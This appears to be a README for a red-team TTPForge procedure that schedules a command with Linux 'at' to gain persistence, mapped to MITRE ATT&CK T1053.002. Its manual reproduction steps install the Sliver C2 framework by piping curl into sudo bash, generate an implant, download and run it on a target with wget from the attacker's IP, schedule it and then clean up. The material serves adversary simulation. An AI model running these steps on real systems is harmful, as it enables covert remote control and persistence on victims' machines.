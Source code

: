 # Systemwide At Job

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP enables the scheduling of a command to run at a specified time using the 'at' command.

## Arguments

- **implant_name**: The command to be executed by the at job. Default is "/bin/ls".

## Prerequisites

1. The 'at' command must be installed on the current system.
2. The executor must have root privileges to schedule an at job.

## Examples

You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//persistence/linux/systemwide-at-job/systemwide-at-job.yaml \
  --arg implant_name="/bin/ls"
```

## Steps

1. **setup**: This step checks if the 'at' command is installed on the current system. If not, it exits with an error message.
2. **schedule-at-job**: This step schedules the at job to run the command specified in the "implant_name" argument at 09:00.
3. **check-success**: This step checks if the at job was successfully scheduled and the command specified in the "implant_name" argument is present in the at job.

## Manual Reproduction Steps

```
### Attacker Configuration
# Escalate privileges to root
sudo su

# Download and install Sliver
curl https://sliver.sh/install | sudo bash

# Create implants folder
mkdir implants

# Get public IP (optional - if running on AWS instance)
# Note value for implant creation
curl icanhazip.com

# Run Sliver
sliver

# Generate implant
generate --http PUBLIC_IP_FROM_PREVIOUS_STEPS --save implants --skip-symbols --os linux

# Start listener
https -l 443

# Background the listener or open another tab
# and host the implant for download
pushd implants ; timeout 30 python3 -m http.server 8080 ; popd

### Target Configuration

# Escalate privileges to root
# (optional - depends on the goal(s) of your simulation)
sudo su

# Download and execute c2 payload
wget "http://${PUB_IP_FROM_PREV_STEP}:8080/${IMPLANT_NAME}"
chmod +x "${IMPLANT_NAME}"
./"${IMPLANT_NAME}" &


# Run implant at 9:00 AM
at -l
echo "cd ${HOME} && ${IMPLANT_NAME}" | at 09:00
at -l

# Clean up
at -r "$(at -l | awk -F ' ' '{print $1}')"
rm "${IMPLANT_NAME}"
```

## MITRE ATT&CK Mapping

- **Tactics**:
    - TA0003 Persistence
- **Techniques**:
    - T1053 Scheduled Task/Job
- **Subtechniques**:
    - T1053.002 Scheduled Task/Job At
